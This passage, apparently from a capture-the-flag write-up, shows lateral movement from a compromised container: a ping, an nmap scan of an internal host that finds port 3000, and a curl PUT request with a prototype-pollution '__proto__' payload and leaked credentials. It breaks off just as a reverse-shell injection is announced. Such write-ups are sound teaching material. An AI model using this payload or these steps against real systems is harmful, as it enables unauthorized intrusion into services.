 ```
64 bytes from 172.17.0.5: icmp_seq=1 ttl=64 time=0.091 ms
--- 172.17.0.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.091/0.091/0.091/0.000 ms

```

I grabbed a copy of [statically compiled nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) and uploaded it to the container. It shows one port open on each, port 3000:

```

root@webapp-deployment-5d764566f4-mbprj:/tmp# ./nmap -p- --min-rate 10000 172.17.0.3

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-08 19:03 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.3
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000024s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
3000/tcp open  unknown
MAC Address: 02:42:AC:11:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 8.44 seconds

```

Port 3000 is the default port for Node ExpressJS applications. It also returns `[]` on `/` just like the Node app on the main host port 31337:

```

root@webapp-deployment-5d764566f4-mbprj:/tmp# curl 172.17.0.3:3000
[]

```

#### Exploit

I’ll see if this container is vulnerable to the same exploit I used to get a foothold. First, add `canUpload`:

```

root@webapp-deployment-5d764566f4-mbprj:/# curl -X PUT http://172.17.0.3:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
{"ok":true}

```

Now inject reverse shell:
